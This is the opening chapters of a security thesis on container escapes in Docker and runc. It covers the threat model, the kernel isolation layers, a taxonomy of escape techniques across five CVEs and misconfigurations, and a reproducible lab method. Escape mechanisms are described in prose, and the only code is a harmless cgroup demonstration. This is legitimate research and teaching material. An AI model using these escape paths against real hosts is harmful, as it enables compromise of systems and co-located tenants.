# Introduction and Threat Model

## Motivation

Container technology has become the default unit of deployment for modern software, and with that adoption has come a widespread, and not always warranted, assumption that a container is a security boundary in the same sense as a virtual machine. This thesis takes that assumption as its object of study and interrogates it systematically: it delves into container security specifically through the lens of the mechanisms that isolate a container from its host, and the ways those mechanisms fail. Rather than surveying container security broadly, the work is deliberately narrowed to the phenomenon of the container *escape*the point at which a process confined by a container boundary regains the ability to act on the hostbecause this is the point at which the gap between the assumed and the actual security guarantee becomes concrete, measurable, and reproducible under controlled conditions.

The approach taken is empirical rather than purely descriptive: each mechanism discussed in Chapter 2 is paired, in Chapters 5 to 9, with a reproduced case study demonstrating its failure, evaluated against a version-pinned laboratory environment (Chapter 4) rather than against secondary literature alone. This pairing of primitive and reproduction is the thesis's central methodological commitment.

##  Scope

This thesis restricts its attention to the Docker and Open Container Initiative (OCI) ecosystem, and within that ecosystem, principally to `runc` as the reference OCI-compliant runtime [@oci-runtime-spec]. This scope is deliberate rather than a simplification of convenience: Docker and `runc` remain the most widely deployed container tooling, the isolation primitives they rely on (Chapter 2) are the same primitives underlying the broader OCI runtime landscape, and restricting scope to a single, well-documented runtime keeps the practical work reproducible within the time available for the project. Orchestration platforms such as Kubernetes are outside this scope: they introduce cluster-level attack surface (the API server, etcd, network policy) that is a legitimate but distinct research area, whereas this thesis is concerned with the boundary around a single container on a single host.


Reproducibility is treated as a scope-defining requirement rather than an implementation detail. All practical work is carried out within a version-controlled, Vagrant-provisioned virtual machine laboratory (detailed fully in Chapter 4), so that every case study can be rebuilt from a single command rather than from an ad hoc, hand-configured environment. This choice keeps the empirical component of the thesis auditable: a reader, or an instructor reusing the accompanying exercises, can reconstruct the exact vulnerable conditions under which each result was obtained.

##  Research Questions

The thesis is organised around two research questions:

**RQ1.** How do container escape techniques differ in mechanism and severity across the categories of the Linux isolation modelmisconfiguration, runtime-level defects, and kernel-level defects?

**RQ2.** To what extent does layered isolation (namespaces, cgroups, capabilities, seccomp, and Linux Security Modules) contain or mitigate an escape once it occurs, and at what point does this containment structurally break down?

RQ1 motivates the taxonomy developed in Chapter 3 and the selection of case studies in Chapters 5 to 9, each chosen to be representative of one category rather than an arbitrary CVE. RQ2 motivates the isolation-layer analysis in Chapter 2 and is answered directly by the capstone case study, which demonstrates the specific circumstancea kernel-level defectunder which every layer of containment is bypassed simultaneously regardless of configuration.
<div class="page_break"></div>

##  Progression of the Case Studies

The five case studies examined in Chapters 5 to 9 are not an arbitrary CVE selection; they are ordered deliberately to trace a single argument from its simplest instance to its most severe. The sequence begins with an exposed Docker socket and a `--privileged` containerconfiguration errors that require no software defect at allproceeds through two `runc` vulnerabilities (CVE-2019-5736, CVE-2024-21626) [@cve-2019-5736; @cve-2024-21626] that defeat the container *runtime* rather than its configuration, and continues through a cgroups vulnerability (CVE-2022-0492) [@cve-2022-0492] that reaches the kernel via a namespace-mediated path. It closes with CVE-2026-31431 ("Copy Fail"), disclosed in April 2026 and, at the time of writing, still under active exploitationa defect in the kernel itself, reachable independently of any container-specific misconfiguration [@cve-2026-31431; @cisa-kev].

The common thread across this progression is the research question it is designed to answer: each case study defeats a different layer of the isolation model described in Chapter 2, and the sequence as a whole is ordered by *how much of the isolation stack must be intact for the technique to still work*. The Docker-socket escape requires every layer to be exactly as configuredit is a failure of policy, not of any mechanism. The `runc` vulnerabilities require the mechanisms to be present but exploit a defect in the software implementing them. The capstone requires none of the layers to be defective at all, because it operates one level below all of them, in the kernel every layer depends on. Read in order, the five case studies are less a list of independent vulnerabilities than a single demonstration, run to completion, of where container isolation holds and where it structurally cannot.

The decision to include a vulnerability disclosed within the same calendar year as this thesis is deliberate: it demonstrates that the argument developed in Chapter 2 is not a historical observation about now-patched software but a standing structural property of container isolation, observable in current, actively exploited defects. Handling of this case study is correspondingly more conservative than for the others, as detailed in Chapter 4's laboratory-hygiene requirements.
<div class="page_break"></div>


##  Threat Model

The threat model assumed throughout this thesis is as follows.

**Attacker starting position.** The attacker has already obtained arbitrary code execution inside a container, at whatever privilege level the container process runs. This is treated as a precondition rather than a research question in itself: how that initial execution is obtaineda compromised application dependency, a malicious image, an exposed serviceis outside scope, and the thesis assumes it has already occurred.

**Attacker objective.** The attacker seeks to escalate from container-confined code execution to code execution on the host, either directly (a shell on the host) or indirectly (read or write access to host resourcesthe filesystem, other containers, the kernelthat the container's configuration was intended to withhold).


**Assets at risk.** The host operating system; co-located containers belonging to other workloads or tenants, where the escape additionally crosses a multi-tenancy boundary; and, in the case of the kernel-level capstone, the integrity of the host kernel itself.

**Explicitly out of scope.** Network-based initial access and lateral movement following a successful escape; supply-chain attacks against container images or build pipelines; and denial-of-service outcomes that do not involve a boundary crossing. These are legitimate concerns in container security broadly but are not escapes in the sense this thesis studies.

This threat model is intentionally narrow. It isolates the single question that the isolation layers described in Chapter 2 are meant to answer*given that an attacker is already running code inside the container, what stops them reaching the host*since that is the question every technique examined in Chapters 5 to 9 answers differently.

<div class="page_break"></div>

##  Contributions

This thesis contributes: a taxonomy of container escape techniques organised by the isolation layer each defeats, rather than by CVE chronology or vendor (Chapter 3); a reproducible, version-pinned, Vagrant-provisioned laboratory environment covering representative techniques from every category in the taxonomy, released as an accompanying repository (Chapter 4); and a set of five CTF-style exercises, spanning misconfiguration through to a currently-exploited kernel vulnerability, each pairing a working reproduction with root-cause analysis and remediation guidance, intended for direct reuse in an offensive-security curriculum (Chapters 5 to 9).

## Thesis Structure

The remainder of this thesis is organised as follows. Chapter 2 establishes the background: the five Linux kernel primitives that compose container isolation, and the argument, central to RQ2, that all five ultimately rest on a single shared kernel. Chapter 3 develops the taxonomy motivated by RQ1. Chapter 4 describes the Vagrant-based laboratory architecture used to reproduce every technique studied. Chapters 5 to 9 present the case studies themselves, one exercise per chapter, following the progression set out in Section 1.4, from misconfiguration through runtime defects to the kernel-level capstone that directly answers RQ2; each chapter closes with its own Remediation and Detection Guidance sections, so the defensive treatment of a technique travels with the technique itself rather than being deferred to a separate chapter. Chapter 10 concludes the thesis, weighing the case studies against RQ1 and RQ2 and identifying directions for future work.


# Background: Linux Kernel Isolation Primitives for Containers

## Containers as a Composition of Kernel Primitives

A container is not a security boundary enforced by the kernel as a single object; no corresponding data structure exists internally. Rather, a container is an ordinary Linux process to which a set of independent restrictions has been applied at creation time. What is commonly referred to as "container isolation" is the emergent result of five largely orthogonal kernel mechanisms acting in concert: namespaces, control groups (cgroups), capabilities, seccomp, and Linux Security Modules (LSMs) [@rice2020; @kerrisk2010]. This composability has a direct methodological consequence for the present work: each escape technique targets a specific mechanism, the taxonomy is organised around this same set of primitives rather than around container runtimes or vendors.

## The Five Isolation Layers

Each layer constrains a distinct dimension of process behaviour. Table 2.1 summarises the five layers, the kernel primitive underlying each, and the property each one isolates. The remainder of this section discusses each layer in turn; Section 2.8 then argues that all five ultimately rest on a single point of trustthe host kernelwhich motivates the inclusion of a kernel-level vulnerability as the capstone case study.
<figure class="table">
<table>
  <thead>
    <tr>
      <th>Layer</th>
      <th>Kernel primitive</th>
      <th>Isolates …</th>
      <th>Summary</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Namespaces</td>
      <td><code>CLONE_NEW*</code></td>
      <td>What the process can see</td>
      <td>Private, virtualised views of a global system resource (PID, mount, network, etc..).</td>
    </tr>
    <tr>
      <td>Cgroups</td>
      <td>cgroup v1 / v2</td>
      <td>What resources it can use</td>
      <td>Accounts for and caps CPU, memory, PID count, and I/O</td>
    </tr>
    <tr>
      <td>Capabilities</td>
      <td><code>CAP_*</code></td>
      <td>What (root) is permitted to do</td>
      <td>Splits monolithic root authority into roughly forty discrete, independently grantable privileges.</td>
    </tr>
    <tr>
      <td>Seccomp</td>
      <td>seccomp-BPF</td>
      <td>Which syscalls it may invoke</td>
      <td>An inherited, irrevocable BPF filter over the syscall entry path.</td>
    </tr>
    <tr>
      <td>LSM</td>
      <td>AppArmor / SELinux</td>
      <td>Mandatory access control</td>
      <td>A policy layer enforced on top of the discretionary model described above.</td>
    </tr>
  </tbody>
</table>
<figcaption><span class="lbl">Table.2.1</span>The five isolation layers and the property each constrains</figcaption></figure>
 
 <div class="page_break"></div>

## Namespaces

Namespaces provide a process with a private, virtualised view of an otherwise global system resource. The namespaces relevant to container isolation are [@man7-linux]:

* **PID** (`CLONE_NEWPID`)a private process-number space; the first process created within it is assigned PID 1.
* **Mount** (`CLONE_NEWNS`)a private filesystem mount table.
* **Network** (`CLONE_NEWNET`)private network interfaces, routing tables, and firewall state.
* **UTS** (`CLONE_NEWUTS`)a private hostname and NIS domain name.
* **IPC** (`CLONE_NEWIPC`)private System V IPC objects and POSIX message queues.
* **User** (`CLONE_NEWUSER`)a private UID/GID mapping, discussed in detail in Section 2.10.

Namespace visibility is one-directional and nested: a process on the host can observe and address processes inside a container's namespaces, whereas a process inside a namespace cannot observe resources outside it.
<div class="page_break"></div>

## Control Groups (Cgroups)

Where namespaces govern visibility, cgroups govern resource consumption accounting for and bounding CPU shares, memory, process count, and block I/O. This distinction, between visibility and governance, is frequently conflated in informal treatments of container security and is addressed explicitly in Section 2.9.2. Of particular relevance to this thesis is the cgroup v1 `release_agent` mechanism, which, absent adequate capability checks, can be induced to execute an attacker-controlled command in the host's initial namespace; this mechanism underlies CVE-2022-0492 [@cve-2022-0492; @unit42-cve-2022-0492], examined in Chapter 8. cgroup v2 removes this specific exposure by design.

### The mechanism in practice

Cgroups expose no dedicated system call. Every operationcreating a group, imposing a limit, admitting a process to itis an ordinary filesystem operation on a pseudo-filesystem mounted at `/sys/fs/cgroup`, in which each cgroup is a directory and each tunable is a file. The sequence below, performed as root on any cgroup v2 host, constructs a group bounded to 50 MiB of memory and observes the kernel enforcing that bound [@rawkode2026cgroups].

```bash
# In cgroup v2 a controller must be delegated by the parent before a child may
# use it. Confirm that the memory and pids controllers are available, and
# enable them if they are absent.
cat /sys/fs/cgroup/cgroup.subtree_control
echo "+memory +pids" | sudo tee /sys/fs/cgroup/cgroup.subtree_control

# A cgroup is created by creating a directory; the kernel populates it with
# the tunable files corresponding to the delegated controllers.
sudo mkdir /sys/fs/cgroup/demo

# A limit is imposed by writing to a file: 50 MiB, with no relief from swap.
echo $((50 * 1024 * 1024)) | sudo tee /sys/fs/cgroup/demo/memory.max
echo 0                     | sudo tee /sys/fs/cgroup/demo/memory.swap.max

# A process joins the cgroup by writing its own PID into cgroup.procs, and then
# replaces itself with a workload that attempts to allocate 200 MiB.
sudo sh -c '
  echo $$ > /sys/fs/cgroup/demo/cgroup.procs
  exec python3 -c "x = b\"A\" * (200 * 1024 * 1024); print(\"survived\")"
'

# The kernel accounts for every enforcement action taken against the group.
cat /sys/fs/cgroup/demo/memory.events

# A cgroup is destroyed by removing its (necessarily empty) directory.
sudo rmdir /sys/fs/cgroup/demo
```

The string `survived` is never printed: the allocation drives the group past `memory.max`, reclaim cannot satisfy it because swap has been denied, and the kernel's out-of-memory killer terminates the process, which the incremented `oom_kill` counter in `memory.events` records. The demonstration isolates precisely the distinction drawn above. No namespace is involved, and the process's view of the system is unaltered`/proc/meminfo` continues to report the host's full physical memory. What has changed is not what the process can see but how much of what it sees it may consume, which is the entirety of what a cgroup governs.

Two properties of this interface bear directly on the offensive material that follows. First, because policy is expressed exclusively as files, authority over a cgroup reduces to filesystem access to its directory: any process able to write to a cgroup hierarchy can rewrite the resource policy encoded there, and the kernel's protection of a tunable is only as strong as the mount and permission state governing the file that exposes it. Second, the same interface that admits a process to a group and destroys the group when it empties is, in cgroup v1, the interface that arms `release_agent`. Section 8.3.1 develops both points in the detail required by CVE-2022-0492.

## Capabilities

POSIX capabilities decompose the traditionally monolithic privileges of UID 0 into approximately forty independently grantable units (`CAP_SYS_ADMIN`, `CAP_NET_ADMIN`, `CAP_SYS_MODULE`, and others) [@man7-linux; @kerrisk2010]. Container runtimes drop the majority of these by default, which is the primary reason a container's root user is materially less privileged than the host's root user even when the two share the same UID. `CAP_SYS_ADMIN` is of particular interest to this thesis, as it alone authorises mount operations and much of the namespace-manipulation surface exploited by misconfiguration-class escapes.

<div class="page_break"></div>

## Seccomp

Secure computing mode (seccomp), in its modern BPF-based form, attaches a filter program to a process's syscall entry path [@man7-linux]. For every syscall attempted, the filter returns one of several dispositionspermit, deny with an error code, terminate the process, or log the event. Two properties make seccomp an effective boundary: the filter is inherited across `fork` and `exec`, and it cannot subsequently be removed by the confined process. A further limitation bears on the offensive material in Chapters 5 to 9: seccomp filters evaluate the syscall number and register-resident arguments, not memory referenced by pointer arguments, making it well suited to denying a syscall outright but poorly suited to validating the content of its arguments. Container runtimes ship a default profile permitting approximately three hundred syscalls while denying roughly forty considered dangerous or rarely legitimateamong them `mount`, `pivot_root`, `kexec_load`, `init_module`, and `bpf`which is precisely the set an attacker typically requires to escalate [@docker-seccomp].

##  Linux Security Modules

AppArmor and SELinux enforce mandatory access control on top of the discretionary mechanisms described above, constraining file access and capability use according to policy rather than ownership alone. Docker applies a default AppArmor profile to unprivileged containers [@docker-apparmor]; this profile is commonly disabled ("unconfined") when a container is launched with the `--privileged` flag, discussed in Section 2.11.

<div class="page_break"></div>

## The Shared Kernel as the Limiting Trust Boundary

A structural property follows from Sections 2.3–2.7: every isolation layer is itself implemented as kernel code, and every container on a given host shares that same kernel instance. Namespaces, cgroups, capabilities, seccomp, and LSM policy all presuppose that the kernel enforcing them is not itself compromised. Consequently, a memory-safety or logic defect in the kernel bypasses all five layers simultaneously, irrespective of how conservatively they have been configured. This observation constitutes the central argument of the present thesis and is the justification for including a kernel-level vulnerability rather than a further runtime or configuration level caseas the capstone exercise in Chapter 9: it demonstrates the structural limit beyond which container isolation, as a category of defence, cannot compensate.
<figure>
<figcaption><span class="lbl">Figure.2.1</span>The container isolation layer model: the five layers of Section 2.2, each implemented by the single shared kernel instance beneath them.</figcaption>
</figure>

 <div class="page_break"></div>

## Two Frequently Conflated Distinctions

### Process Identity Versus Effective Privilege

A container process typically presents as both "PID 1" and "root," and the two observations are commonly, and incorrectly, treated as a single phenomenon. They arise from independent mechanisms. PID 1 status is a consequence of the PID namespace (Section 2.3): `CLONE_NEWPID` establishes a fresh process-number space in which the first process is, by definition, numbered 1, while the same process retains a distinct, typically higher, process identifier on the host. This property concerns visibility only and confers no privilege; it is not, in itself, exploitable for escape. "Root" status, by contrast, is a consequence of the process's effective UID together with its capability set and, where present, the UID mapping installed by a user namespace (Section 2.10). Whether UID 0 inside a container constitutes a meaningful privilege depends entirely on these latter two factors.

### Namespaces Versus Cgroups

The two mechanisms operate on orthogonal axes: namespaces determine what a process can observe, while cgroups determine what quantity of a resource it may consume. A process may occupy freshly created mount, PID, and network namespacesand therefore have a fully private view of the systemwhile remaining entirely unconstrained with respect to CPU or memory consumption, or the converse. Treating the two as interchangeable obscures the distinct escape classes each gives rise to.

 <div class="page_break"></div>

## User Namespaces and UID Remapping

The user namespace (`CLONE_NEWUSER`) installs a mapping between UID and GID values inside the namespace and a corresponding range on the host [@man7-linux]. The two configurations encountered in practice are as follows. In both cases the process presents identically from inside the containeras UID 0and the two configurations are indistinguishable to the confined process itself; the difference is visible only from the host side of the mapping.
<figure>

<figcaption><span class="lbl">Figure.2.2</span>Effect of a user namespace on the severity of a successful escape. Absent a user namespace, container UID 0 is host UID 0 by identity; with a user namespace, container UID 0 is remapped to an unprivileged host UID.</figcaption>
</figure>

**Without a user namespace:** container UID 0 and host UID 0 are the same identity; the only barrier preventing container root from acting as host root is the capability set described in Section 2.5. A successful escape lands the attacker as host root.

**With a user namespace:** the container's UID range (conventionally 0–65535) is offset to an unprivileged host range (for example, 100000–165535). A successful escape lands the attacker as an unprivileged host user.

The practical consequence for the exercises in Chapters 5 to 9 is that user namespaces do not, in general, prevent a given escape technique from executing; rather, they determine the severity of its outcomehost root in the former configuration, an unprivileged host account in the latter. This distinction is reflected in the remediation guidance accompanying every exercise in this thesis.

It should be noted, as a caveat relevant to Chapter 3's taxonomy, that the user namespace is itself an attack surface rather than a purely defensive mechanism: several documented vulnerabilities, including CVE-2022-0492 examined in Chapter 8 [@unit42-cve-2022-0492], arise precisely because an unprivileged user obtaining `CAP_SYS_ADMIN` within a user namespace can reach kernel code paths that had implicitly assumed only genuine host root could invoke them.

## Privileged Versus Unprivileged Containers

The `--privileged` flag is frequently described informally as disabling "container isolation"; more precisely, it disables several of the layers enumerated in Section 2.2 simultaneously, as summarised in Table 2.2 [@docker-run-reference].

<figure class="table" id="privileged-flag-layers">
  <table>
    <thead>
      <tr>
        <th>Layer</th>
        <th>Unprivileged (default)</th>
        <th>Privileged (<code>--privileged</code>)</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <td>Namespaces</td>
        <td>Active</td>
        <td>Active (still isolated)</td>
      </tr>
      <tr>
        <td>Cgroup limits</td>
        <td>Enforced</td>
        <td>Enforced</td>
      </tr>
      <tr>
        <td>Capabilities</td>
        <td>Most dropped</td>
        <td><strong>Most restored</strong></td>
      </tr>
      <tr>
        <td>Seccomp</td>
        <td>Default profile active</td>
        <td><strong>Disabled</strong></td>
      </tr>
      <tr>
        <td>Devices (<code>/dev</code>)</td>
        <td>Restricted</td>
        <td><strong>Host devices exposed</strong></td>
      </tr>
      <tr>
        <td>AppArmor / SELinux</td>
        <td>Default profile</td>
        <td><strong>Frequently unconfined</strong></td>
      </tr>
    </tbody>
  </table>
  <figcaption><span class="lbl">Table.2.2</span>Layers affected by the <code>--privileged</code> runtime flag.</figcaption>
</figure>

Because capabilities are restored, seccomp filtering is disabled, and host devices are exposed concurrently, a privileged container's UID 0 becomes, for practical purposes, equivalent to host root. This combination explains why misconfiguration-class escapesexploitation of `--privileged` and of an exposed container-runtime socketremain the most frequently observed escape vector in production incidents, and motivates their treatment as the introductory case studies in Chapters 5 and 6: they establish the layer-disabling principle before runtime- and kernel-level vulnerabilities are introduced.

# A Taxonomy of Container Escape Techniques

## Rationale for a Layer-Oriented Taxonomy

Container escape techniques are most commonly catalogued in one of three ways: chronologically, as a list of CVEs; by vendor or component, as in a runtime's security advisories [@oci-runc-advisories]; or by attacker action, as in the container-relevant entries of the MITRE ATT&CK matrix [@mitre-attack-containers]. Each of these organising principles answers a useful questionrespectively, *when* a defect was disclosed, *which* component carried it, and *what* an attacker didbut none answers the question posed by RQ1: *why* the isolation failed, and how that failure differs from one technique to the next. A chronological list treats a socket misconfiguration and a kernel memory-safety defect as equivalent entries; a vendor-oriented list separates two mechanistically identical bugs merely because they were fixed in different releases.

This chapter therefore organises escape techniques by the element of the isolation model (Chapter 2) whose failure the technique exploits. The organising axis is not the vulnerability but the *layer at which the failure originates*. This choice follows directly from the thesis's central argument (Section 2.8): because container isolation is the composition of several independent kernel mechanisms rather than a single boundary, a meaningful taxonomy of its failures must be indexed by mechanism. The taxonomy developed here is the primary conceptual contribution of the thesis, and it is the framework against which the case studies of Chapters 5 to 9 are selected and interpreted.

 <div class="page_break"></div>

## The Three Categories

Escape techniques are divided into three categories according to the level at which the failure originates. The distinguishing test for each is not the severity of the outcomeseveral techniques across all three categories yield host rootbut the nature of what has gone wrong.

**Misconfiguration.** No software defect is present. Every isolation mechanism functions exactly as designed, but the container has been configured such that the host's own facilities grant the confined process more authority than intended. The failure is one of policy, not of implementation. A correctly patched, fully up-to-date host remains vulnerable, because there is nothing to patch: the exposure is the configuration itself.

**Runtime-level defect.** The isolation mechanisms are correctly configured, but the container *runtime*the userspace software responsible for constructing and managing the container, principally `runc` within the scope of this thesiscontains an implementation flaw that an attacker can exploit to cross the boundary the runtime was meant to enforce. The failure is in the software that builds the container, not in the kernel primitives it relies on nor in the configuration supplied to it.

**Kernel-level defect.** The failure originates in the shared host kernel itself. Because every isolation mechanism is implemented as kernel code (Section 2.8), a defect at this level is not confined to any single mechanism; it operates beneath all of them. This category is distinguished by the property that no container-specific misconfiguration or runtime flaw need be present for the technique to succeed.

<div class="page_break"></div>

## Classification Dimensions

Within each category, an individual technique is characterised along four further dimensions, which together answer the "mechanism and severity" clause of RQ1 and the "containment" clause of RQ2:

- **Isolation layer(s) defeated**which of the five layers of Section 2.2 the technique nullifies or circumvents.
- **Precondition**the configuration or environmental state that must hold for the technique to be applicable, which determines how frequently the technique is exploitable in practice.
- **Outcome and severity**the privilege the attacker obtains on success, and the blast radius of that privilege.
- **Containment under a user namespace**whether the presence of a user namespace (Section 2.10) reduces the severity of a successful escape. This dimension is the taxonomy's direct instrument for answering RQ2, as it identifies precisely where layered isolation continues to constrain an attacker and where it ceases to.

<div class="page_break"></div>

## The Taxonomy Applied

Table 3.1 classifies the escape techniques examined in this thesis according to the categories of Section 3.2 and the dimensions of Section 3.3. The techniques are listed in the order in which they are studied in Chapters 5 to 9, which, as established in Section 1.4, corresponds to a decreasing requirement that the isolation stack remain intact.
<figure class="table">
 
  <table>
    <thead>
      <tr>
        <th>Technique</th>
        <th>Category</th>
        <th>Layer(s) defeated</th>
        <th>Precondition</th>
        <th>Outcome</th>
        <th>Contained by user namespace?</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <td>Exposed Docker socket (Chapter 5)</td>
        <td>Misconfiguration</td>
        <td>None defeated; host authority granted by policy</td>
        <td>Daemon socket bind-mounted into the container</td>
        <td>Host root</td>
        <td>No, the daemon executes as host root independently of the calling container</td>
      </tr>
      <tr>
        <td><code>--privileged</code> container (Chapter 6)</td>
        <td>Misconfiguration</td>
        <td>Capabilities, seccomp, LSM, device isolation (concurrently)</td>
        <td>Container launched with <code>--privileged</code></td>
        <td>Host root</td>
        <td>No, the flag negates the layers a user namespace would otherwise reinforce</td>
      </tr>
      <tr>
        <td><a href="#exercise-iii-cve-2019-5736-runc-procselfexe-overwrite">CVE-2019-5736</a> (<code>runc</code>, Chapter 7)</td>
        <td>Runtime-level</td>
        <td>Runtime integrity, and thereby the mount namespace</td>
        <td>Attacker-controlled process or image, and an administrative <code>exec</code> or <code>run</code></td>
        <td>Host root</td>
        <td>Partially, rootless operation runs <code>runc</code> unprivileged, reducing severity</td>
      </tr>
      <tr>
        <td><a href="#exercise-iv-cve-2022-0492-cgroup-v1-release_agent">CVE-2022-0492</a> (cgroups v1, Chapter 8)</td>
        <td>Kernel-level, reached via container primitives</td>
        <td>Kernel capability check governing the cgroup v1 <code>release_agent</code></td>
        <td>cgroup v1 in use; <code>CAP_SYS_ADMIN</code> obtainable within a user namespace</td>
        <td>Host root</td>
        <td>No, the technique exploits the user namespace itself to reach the defect</td>
      </tr>
      <tr>
        <td>CVE-2026-31431 ("Copy Fail", Chapter 9)</td>
        <td>Kernel-level</td>
        <td>All layers; the defect operates beneath them</td>
        <td>Vulnerable kernel; the <code>AF_ALG</code> interface reachable from the container</td>
        <td>Host root</td>
        <td>No, the defect resides in the kernel that implements the namespace</td>
      </tr>
    </tbody>
  </table>
   <figcaption class="label"><span class="lbl">Table.3.1</span>Classification of the escape techniques examined in this thesis.</figcaption>
</figure>
<div class="page_break"></div>

## Discussion by Category

### Misconfiguration

The two misconfiguration techniques are the most frequently observed escape vector in production environments precisely because they require no vulnerability and therefore survive patching [@securelist2026containers], [@redhat2024kubesec]. The exposed Docker socket grants host authority by delegation: because the socket is the root-privileged daemon's control interface, access to it is equivalent to control of the host, and no isolation layer is defeated because none is engaged in the attack [@wiz-container-escape]. The `--privileged` container, by contrast, does defeat layersbut by configuration rather than exploitation, disabling seccomp, restoring the capability set, and unconfining the LSM profile simultaneously (Section 2.11) [@wiz-container-escape]. The two together establish the taxonomy's baseline: they demonstrate that the isolation model can be nullified entirely without any software defect, which is the necessary point of comparison for the defect-based categories that follow.

### Runtime-Level Defects

The two `runc` vulnerabilities occupy the middle of the taxonomy because they require the isolation mechanisms to be present and correctly configured, yet defeat them by corrupting the software that constructs and mediates the container. CVE-2019-5736 achieves this by overwriting the `runc` binary on the host through a reference obtained via `/proc/self/exe`, converting a subsequent invocation of the runtime into attacker-controlled execution as root [@avrahami2019runc; @cve-2019-5736]. CVE-2024-21626 achieves a comparable result through a different mechanisma leaked file descriptor referencing the host filesystem, which a crafted working-directory setting turns into a path out of the mount namespace [@snyk2024leakyvessels; @runc-ghsa-leaky-vessels]. That two distinct implementation defects in the same runtime yield the same class of outcome is itself an argument of the taxonomy: the runtime is a single, load-bearing component whose integrity the entire isolation model presupposes, and its category of failure is therefore distinct from both the configuration above it and the kernel below it.

 <div class="page_break"></div>

### Kernel-Level Defects

The two kernel-level techniques share the property that they operate beneath the isolation layers rather than through them, but they differ instructively in how they are reached. CVE-2022-0492 is a kernel logic flawa missing capability check in the cgroup v1 `release_agent` paththat is nonetheless reached entirely through the container's own legitimate primitives: an attacker acquires `CAP_SYS_ADMIN` within a user namespace and uses it to trigger execution in the host's initial namespace [@unit42-cve-2022-0492]. It therefore sits at the boundary of the runtime and kernel categories, and it illustrates the caveat raised in Section 2.10 that the user namespace is an attack surface as well as a defence. CVE-2026-31431, the capstone, represents the category in its pure form: a defect in the kernel's cryptographic subsystem, reachable through ordinary syscalls, that is independent of any container-specific state [@cve-2026-31431]. Because it compromises the kernel that implements every isolation layer, no configuration of those layers constrains it, and a user namespace does not contain it. It is included specifically to demonstrate the terminal case of the taxonomy, in which the concept of container isolation ceases to apply.


## The Ordering Principle: Intactness of the Isolation Stack

The three categories admit a natural ordering, which is the ordering followed by both Table 3.1 and the case studies of Chapters 5 to 9. The categories can be arranged by the degree to which the isolation stack must remain intact for a technique within them to succeed. A misconfiguration technique requires the stack to be entirely intact and correctly functioningit is a failure of the policy governing the stack, not of the stack itself. A runtime-level technique requires the kernel primitives to be intact but exploits a defect in the software assembling them. A kernel-level technique requires nothing of the stack at all, because it operates on the foundation the stack is built upon.

This ordering is not merely expository. It is the taxonomy's answer to RQ2: it identifies the point at which layered isolation structurally ceases to contain an attacker. Reading the categories in order, containment weakens monotonicallyfrom a misconfiguration whose remedy is purely a matter of policy, through a runtime defect remediable by patching a single userspace component, to a kernel defect against which the layered model offers, by construction, no defence. The final category is where the containment described throughout Chapter 2 breaks down completely, and its existence is the reason the thesis argues that container isolation, however carefully configured, is bounded above by the integrity of a single shared kernel.


# Laboratory Environment and Operational Hygiene


## Methodological Approach
 
The thesis adopts a reproduction-based case-study methodology. Rather than surveying escape techniques from secondary literature, each technique selected for study is reproduced in a controlled environment, its mechanism confirmed by direct observation, and its remediation documented. This approach follows from the empirical commitment stated in Section 1.1: the gap between the assumed and the actual security guarantee of a container is made concrete by demonstrating a failure, not by describing one. The case study is therefore the unit of the study, and the method is the disciplined, repeatable construction and exercise of those case studies.
 
This approach is chosen because it answers the two research questions in a way a survey could not. RQ1 asks how escape techniques differ in mechanism and severity across the categories of the isolation model; a reproduction establishes the mechanism directly, rather than inheriting a description of it. RQ2 asks at what point layered isolation ceases to contain an attacker; this is answerable only by observing, under controlled conditions, which layers remain effective against a given technique and which do not. The taxonomy of Chapter 3 supplies the structure the case studies populate, and the method described here supplies the evidence for each cell of that taxonomy.
 
The study is conducted by a single researcher, and its validity rests on the verifiability of each reproduction rather than on external testing. The criterion by which an exercise is considered established is defined in Section 4.6; the operational and architectural means by which reproductions are made repeatable are described in Sections 4.4 and 4.5.
 
 <div class="page_break"></div>

## Case-Study Selection Criteria
 
The techniques studied in Chapters 5 to 9 are not selected for novelty or notoriety but according to four explicit criteria, so that the set as a whole is representative of the taxonomy rather than of any single class of defect.
 
- **Category coverage.** At least one technique is selected from each category of the taxonomy of Chapter 3—misconfiguration, runtime-level defect, and kernel-level defect—so that the case studies collectively span the full isolation model rather than clustering in a single category.
- **Ordering by stack intactness.** Within that coverage, techniques are chosen and ordered to trace the progression established in Section 1.4, from those requiring the isolation stack to be entirely intact (misconfiguration) to those requiring none of it (kernel-level defect). This ordering is a deliberate methodological device: it allows the containment question of RQ2 to be examined as a controlled progression rather than as a set of unrelated observations.
- **Scope conformance.** Every technique lies within the Docker/OCI and `runc` scope defined in Section 1.2. Techniques whose reproduction would require orchestration-layer infrastructure, a second host, or tooling outside this ecosystem are excluded, regardless of their significance in the broader literature.
- **Currency of the terminal case.** The kernel-level capstone is selected to be a recent, currently relevant vulnerability rather than a historical one, so that the structural argument of the thesis is demonstrated against a present-day defect rather than a patched artefact. This criterion is applied only to the capstone; the remaining case studies are chosen for their clarity and documentation rather than their recency.
 <div class="page_break"></div>

## Anatomy of an Exercise
 
Every case study is constructed to a fixed internal structure. This uniformity serves two purposes simultaneously: it makes the reproductions comparable to one another, and it renders each case study directly reusable as a self-contained teaching exercise, which is the secondary contribution stated in Section 1.6. Each exercise comprises six components:
 
- **Objective**the concrete goal of the exercise, expressed as a capability to be obtained (for example, a root shell on the host, or read access to a host file), which fixes an unambiguous success condition.
- **Threat scenario and environment setup**the misconfiguration or vulnerable configuration under study, together with the exact, version-pinned steps that provision it.
- **Exploitation walkthrough**the sequence of actions that achieves the objective, presented so that it can be followed and reproduced.
- **Root-cause analysis**an account of *why* the technique succeeds, identifying the specific isolation layer or software defect responsible, and mapping the technique to its cell in the taxonomy of Chapter 3.
- **Detection guidance**the observable indicators by which the technique could be identified in a monitored environment.
